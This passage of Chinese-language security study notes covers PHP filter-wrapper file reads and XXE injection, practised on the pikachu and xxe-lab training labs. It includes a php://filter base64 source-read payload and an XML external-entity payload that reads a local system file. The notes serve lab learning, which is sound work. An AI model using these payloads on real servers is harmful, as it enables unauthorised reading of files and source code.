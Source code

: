 用途：常用于读取文件/源码

使用条件：

```
alloe_url_fopen:off/on
allow_url_include:off/on
```

使用方法:

```php
?path=php://filter/read=convert.base64-encode/resource=文件名
```

filter协议相对路径和绝对路径都可以使用



## XXE - XML外部实体注入

### pikachu-XXE

构造一个恶意的payload，通过外部实体引用从而去获取后台服务器的本地文件信息。

```xml
<!DOCTYPE test[
        <!ENTITY test SYSTEM "file:///C:/Windows/win.ini">
        ]>
<test>&test;</test>
```

### xxe-lab

github：https://github.com/c0ny1/xxe-lab

#### 练习

##### 启动

![image-20240902162133639](https://image.201068.xyz/assets/27.XXE/image-20240902162133639.png)

##### burp抓包

![image-20240902162222089](https://image.201068.xyz/assets/27.XXE/image-20240902162222089.png)

##### 构造xxe

正常XML：

```xml
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY test "admin">
]>
<test>&test;</test>
```
